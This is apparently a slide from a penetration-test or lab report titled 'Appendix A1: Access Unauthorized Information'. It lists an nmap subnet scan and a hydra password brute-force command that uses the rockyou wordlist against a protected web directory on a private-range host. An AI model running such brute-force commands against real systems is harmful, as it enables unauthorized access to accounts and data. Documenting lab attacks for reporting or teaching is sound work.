

# Appendix A1: Access Unauthorized Information
01

02

03

Achievements
Able to access the ‘secret_folder’ directory to view the contents file, ‘connect_to_corp_server’, which gave instructions on how to connect to the victim’s machine.

-  # nmap 192.168.1.8/24

-  Navigate to 192.168.1.105/company_folders/secret_folder

# hydra –l ashton –P /usr/share/wordlists/rockyou.txt –s 80 –f -v 192.168.1.105 http-get /company_folders/secret_folder

Tools & Processes
Tools used to gain access to the ‘secret_folder:
   -  nmap
   -  Web browser
   -  hydra